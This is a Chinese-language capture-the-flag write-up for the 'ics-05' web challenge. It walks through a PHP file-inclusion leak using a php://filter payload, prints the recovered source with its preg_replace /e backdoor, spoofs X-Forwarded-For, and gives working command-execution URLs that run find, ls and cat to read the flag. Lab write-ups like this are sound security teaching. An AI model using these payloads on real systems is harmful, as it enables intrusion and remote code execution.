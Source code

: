 # ics-05

## 解题思路：

- 首先打开网页，发现跟 ics-04 和 ics-06 的界面一样，但是题目直接告诉了我们 **“工控云管理系统设备维护中心” 有后门**

- 那就直接打开这个界面，发现空空如也，只有一个复选框可以点，点了也没什么用。打开开发者选项，发现有一个 **?page=index** ，get传参形式获取到page的值

- 考虑是文件包含漏洞([参考资料](https://blog.csdn.net/qq_29419013/article/details/81202358))， 对page进行get：

    `index.php/?page=alsdfjasdlfkjaslf`

    服务器直接把我发出去的page值显示在了屏幕上，说明page确实传过去了。

- 开始利用，构造一个payload传一下我们的命令：

    `index.php?pages=php://filter/read=convert.base64-encode/resource=index.php`

    这里是直接获取了index.php的内容我在第二步时尝试过请求 `/config.php` ，发现该文件不存在。

- 利用payload上传，发现服务器传回了一长串base64编码，放进phpstorm里执行一下解码：

    ```html
    <!DOCTYPE HTML>
    <html>

    <head>
        <meta charset="utf-8">
        <meta name="renderer" content="webkit">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
        <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
        <link rel="stylesheet" href="layui/css/layui.css" media="all">
        <title>设备维护中心</title>
        <meta charset="utf-8">
    </head>

    <body>
        <ul class="layui-nav">
            <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
        </ul>
        <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
            <legend>设备列表</legend>
        </fieldset>
        <table class="layui-hide" id="test"></table>
        <script type="text/html" id="switchTpl">
            <!-- 这里的 checked 的状态只是演示 -->
            <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
        </script>
        <script src="layui/layui.js" charset="utf-8"></script>
        <script>
        layui.use('table', function() {
            var table = layui.table,
                form = layui.form;

            table.render({
                elem: '#test',
                url: '/somrthing.json',
                cellMinWidth: 80,
                cols: [
                    [
                        { type: 'numbers' },
                        { type: 'checkbox' },
                        { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                        { field: 'name', title: '设备名', templet: '#nameTpl' },
                        { field: 'area', title: '区域' },
                        { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                        { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                    ]
                ],
                page: true
            });
        });
        </script>
        <script>
        layui.use('element', function() {
            var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
            //监听导航点击
            element.on('nav(demo)', function(elem) {
                //console.log(elem)
                layer.msg(elem.text());
            });
        });
        </script>

    <?php

    $page = $_GET[page];

    if (isset($page)) {



    if (ctype_alnum($page)) {
    ?>

        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead"><?php echo $page; die();?></p>
        <br /><br /><br /><br />

    <?php

    }else{

    ?>
            <br /><br /><br /><br />
            <div style="text-align:center">
                <p class="lead">
                    <?php

                    if (strpos($page, 'input') > 0) {
                        die();
                    }

                    if (strpos($page, 'ta:text') > 0) {
                        die();
                    }

                    if (strpos($page, 'text') > 0) {
                        die();
                    }

                    if ($page === 'index.php') {
                        die('Ok');
                    }
                        include($page);
                        die();
                    ?>
            </p>
            <br /><br /><br /><br />

    <?php
    }}


    //方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

    if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

        echo "<br >Welcome My Admin ! <br >";

        $pattern = $_GET[pat];
        $replacement = $_GET[rep];
        $subject = $_GET[sub];

        if (isset($pattern) && isset($replacement) && isset($subject)) {
            preg_replace($pattern, $replacement, $subject);
        }else{
            die();
        }

    }
    ?>

    </body>

    </html>
    ```

- 看到 `if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1')` ，知道要伪造XFF，那我们就伪造一波，用burp suite修改一下请求，加一句：

    `X-Forwarded-For: 127.0.0.1`

    服务器回复，网页下面多了一句：`Welcome My Admin ! `

    成功拿到管理员权限，接下来考虑怎么拿flag：

    看到 `preg_replace()` ，没跑儿了：

        preg_replace( pattern , replacement , subject ) :
        当pre_replace的参数pattern输入/e的时候 ,参数replacement的代码当作PHP代码执行

    于是构造payload：
    
    `/index.php?pat=/test/e&rep=system('find+/+-name+flag.php')&sub=test`

    使用 `find` 来找flag， 中间用 `+` 替换空格，我之前用空格发现服务器报错 400 ，必须用+来避免编解码错误。

    服务器回复：

    `/var/www/html/s3chahahaDir/flag`

    接着构造，直接cat看看能不能拿到flag：

    `/index.php?pat=/test/e&rep=system('cat+/var/www/html/s3chahahaDir/flag')&sub=test`

    发现没东西，再试试ls看看flag是不是文件夹：

    `/index.php?pat=/test/e&rep=system('ls+/var/www/html/s3chahahaDir/flag')&sub=test`

    服务器回应：`flag.php`

    最后用cat拿flag：

    `/index.php?pat=/test/e&rep=system('cat+/var/www/html/s3chahahaDir/flag/flag.php')&sub=test`

    搞定！